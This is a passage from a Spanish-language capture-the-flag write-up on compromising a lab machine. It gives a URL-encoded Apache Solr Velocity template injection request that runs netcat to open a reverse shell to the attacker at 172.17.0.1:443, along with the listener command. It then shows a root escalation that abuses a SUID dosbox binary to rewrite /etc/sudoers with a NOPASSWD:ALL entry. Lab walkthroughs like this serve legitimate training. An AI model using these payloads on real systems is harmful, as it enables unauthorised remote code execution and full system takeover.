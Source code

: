 En le respuesta vemos lo siguiente:
```bash
HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Content-Length: 16

     0  ninhack
```

### Intrusion
Ahora ganaremos acceso a la maquina vicitma, Asi que nos ponemos en escucha por el puerto 443 en nuestra maquina atacante
```bash
nc -nlvp 443
```

Ejecutaremos el tipico **oneLiner** pero **urlEncode** para evitar problemas con los caracteres
```bash
# Reverse shell o acceso inicial
GET /solr/0xDojo/select?q=1&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27nc+172.17.0.1+443+-e+/bin/bash%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
```

---

## Escalada de Privilegios

###### Usuario `[ ninhack ]`:
Buscando por privilegios **SUID**
```bash
find / -perm -4000 2>/dev/null

/usr/bin/dosbox
```

El binario `dosbox` es un emulador de DOS, y su configuración SUID (`Set User ID`) permite ejecutarlo con los privilegios del propietario (normalmente root).

```bash
# Comando para escalar al usuario: ( root )
LFILE='/etc/sudoers'
/usr/bin/dosbox -c 'mount c /' -c "echo 'root ALL=(ALL:ALL) ALL' > c:$LFILE" -c "echo '$USER ALL=(ALL) NOPASSWD:ALL' >> c:$LFILE" -c exit
```

1. **LFILE='/etc/sudoers'**:
    - Apunta al archivo de configuración de `sudo`, que controla los privilegios de usuarios.
2. **Payload: '$USER ALL=(ALL) NOPASSWD:ALL'**:
    - Agrega tu usuario actual (`$USER`) al archivo `sudoers`.
    - `NOPASSWD:ALL`: Permite ejecutar **cualquier comando como root sin contraseña**.
3. **Mecanismo de Escritura**:
    - `mount c /`: Monta el directorio raíz (`/`) como unidad `C:` en DOSBox.
    - `echo ... > c:$LFILE`: Escribe el payload en el archivo objetivo usando la ruta emulada (`c:/etc/sudoers`).
